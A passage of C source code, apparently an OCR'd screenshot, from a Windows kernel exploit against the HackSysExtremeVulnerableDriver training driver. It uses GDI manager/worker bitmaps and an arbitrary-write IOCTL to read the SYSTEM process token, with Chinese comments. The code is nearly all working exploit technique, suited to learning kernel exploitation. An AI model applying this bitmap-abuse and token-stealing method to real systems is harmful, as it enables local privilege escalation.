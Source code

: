 ```c
	}

	printf("driver name is: %s\n", driverName);
	return (DWORD32)driversAddress[ntoskrnlKernelBase];
}

DWORD32 getSystemEProcessAddr() {
	DWORD32 ntoskrnlKernelBase = getKernelBase();
	DWORD32 ntoskrnlUserBase = (DWORD32)LoadLibrary(driverName);
	if (ntoskrnlUserBase == NULL) {
		printf("load library failed!\n");
		return 0;
	}
	DWORD32 PsInitialSystemProcessUserSpaceAddr = (DWORD32)GetProcAddress((HMODULE)ntoskrnlUserBase, "PsInitialSystemProcess");
	DWORD32 PsInitialSystemProcessKernelSpaceAddr = ntoskrnlKernelBase + (PsInitialSystemProcessUserSpaceAddr - ntoskrnlUserBase);

	return PsInitialSystemProcessKernelSpaceAddr;
}


int main() {

	HBITMAP hManager = CreateBitmap(0x20, 0x20, 0x1, 0x8, NULL);
	if (hManager == NULL) {
		printf("create manager bitmap failed\n");
		return 0;
	}
	HBITMAP hWorker = CreateBitmap(0x20, 0x20, 0x1, 0x8, NULL);
	if (hWorker == NULL) {
		printf("create worker bitmap failed\n");
		return 0;
	}

	printf("Manager bitmap:\n");
	DWORD32 ManagerpvScan0Address = getpvScan0Address(hManager);
	printf("Worker bitmap:\n");
	DWORD32 WorkerpvScan0Address = getpvScan0Address(hWorker);

	PPayload payload = NULL;
	// malloc
	payload = (PPayload)HeapAlloc(GetProcessHeap(),
		HEAP_ZERO_MEMORY,
		sizeof(Payload));
	payload -> what = (PULONG_PTR)&WorkerpvScan0Address;
	payload -> where = (PULONG_PTR)ManagerpvScan0Address;
	DWORD BytesReturned = 0;
	HANDLE hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);
	DeviceIoControl(hDevice, 0x0022200B, (LPVOID)payload, sizeof(Payload), NULL, 0, &BytesReturned, NULL);
	
	// 已经 overwrite 了，接下来就是利用 SetBitmapBits 和 GetBitmapBits 来读写

	DWORD32 systemEprocessAddr = 0;
	LPVOID lpSystemToken = NULL; // 获取 system 进程的 token
	readOOB(hManager, hWorker, getSystemEProcessAddr(), &systemEprocessAddr, sizeof(DWORD32));
	readOOB(hManager, hWorker, (systemEprocessAddr + 0x0f8), &lpSystemToken, sizeof(DWORD32));

	// _eprocess + 0x0f8 是 token
	// _eprocess + 0x0B8 是 ActiveProcessLinks.Flink
	// _eprocess + 0x0b4 是 processid
```